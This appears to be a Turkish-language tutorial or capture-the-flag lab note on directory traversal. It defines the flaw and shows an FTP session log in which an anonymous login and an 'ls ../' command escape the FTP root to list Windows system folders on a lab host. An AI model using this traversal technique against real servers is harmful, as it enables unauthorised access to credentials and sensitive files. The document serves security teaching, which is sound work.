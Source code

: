 ### Directory Traversal

Directory traversal veya path traversal, saldırganın rastgele dosyalar okumasına izin veren bir güvenlik açığıdır.

`../` ve çeşitli varyasyonları kullanılarak, uygulama koduna ve verilerine, arka uç sistemler için kimlik bilgilerine ve hassas işletim sistemi dosyalarına erişmek mümkündür.

```bash
# ftp 10.150.150.212 21                                                                                                                                                                    
Connected to 10.150.150.212.                                                                                                                                                                 
220-Wellcome to Home Ftp Server!                                                                                                                                                             
220 Server ready.
Name (10.150.150.212:root): anonymous
331 Password required for anonymous.
Password: 
230 User Anonymous logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /
ftp> ls
227 Entering Passive Mode (10,150,150,212,192,46).
150 Opening data connection for directory list.
drw-rw-rw-   1 ftp      ftp            0 Mar 26  2019 .
drw-rw-rw-   1 ftp      ftp            0 Mar 26  2019 ..
drw-rw-rw-   1 ftp      ftp            0 Mar 13  2019 FLAG
-rw-rw-rw-   1 ftp      ftp        34419 Mar 26  2019 xampp-control.log
-rw-rw-rw-   1 ftp      ftp          881 Nov 13  2018 zen.txt
226 File sent ok
ftp> ls ../
227 Entering Passive Mode (10,150,150,212,192,47).
150 Opening data connection for directory list.
-rw-rw-rw-   1 ftp      ftp        17734 Nov 07  2007 boot.ini
-rw-rw-rw-   1 ftp      ftp        17734 Nov 07  2007 eula.1031.txt
-rw-rw-rw-   1 ftp      ftp        10134 Nov 07  2007 eula.1033.txt
-rw-rw-rw-   1 ftp      ftp        17734 Nov 07  2007 eula.1036.txt
-rw-rw-rw-   1 ftp      ftp        17734 Nov 07  2007 eula.1040.txt
-rw-rw-rw-   1 ftp      ftp          118 Nov 07  2007 eula.1041.txt
-rw-rw-rw-   1 ftp      ftp        17734 Nov 07  2007 eula.1042.txt
-rw-rw-rw-   1 ftp      ftp        17734 Nov 07  2007 eula.2052.txt
-rw-rw-rw-   1 ftp      ftp        17734 Nov 07  2007 eula.3082.txt
drw-rw-rw-   1 ftp      ftp            0 Mar 26  2019 FTP
-rw-rw-rw-   1 ftp      ftp         1110 Nov 07  2007 globdata.ini
-rwxrwxrwx   1 ftp      ftp       562688 Nov 07  2007 install.exe
-rw-rw-rw-   1 ftp      ftp          843 Nov 07  2007 install.ini
-rw-rw-rw-   1 ftp      ftp        76304 Nov 07  2007 install.res.1028.dll
-rw-rw-rw-   1 ftp      ftp        96272 Nov 07  2007 install.res.1031.dll
-rw-rw-rw-   1 ftp      ftp        91152 Nov 07  2007 install.res.1033.dll
-rw-rw-rw-   1 ftp      ftp        97296 Nov 07  2007 install.res.1036.dll
-rw-rw-rw-   1 ftp      ftp        95248 Nov 07  2007 install.res.1040.dll
-rw-rw-rw-   1 ftp      ftp        81424 Nov 07  2007 install.res.1041.dll
-rw-rw-rw-   1 ftp      ftp        79888 Nov 07  2007 install.res.1042.dll
-rw-rw-rw-   1 ftp      ftp        75792 Nov 07  2007 install.res.2052.dll
-rw-rw-rw-   1 ftp      ftp        96272 Nov 07  2007 install.res.3082.dll
drw-rw-rw-   1 ftp      ftp            0 Oct 29  2019 New folder
drw-rw-rw-   1 ftp      ftp            0 Jul 14  2009 PerfLogs
dr--r--r--   1 ftp      ftp            0 Apr 02  2020 Program Files
dr--r--r--   1 ftp      ftp            0 Feb 28  2019 Program Files (x86)
drw-rw-rw-   1 ftp      ftp            0 Oct 29  2019 temp
dr--r--r--   1 ftp      ftp            0 Nov 13  2018 Users
```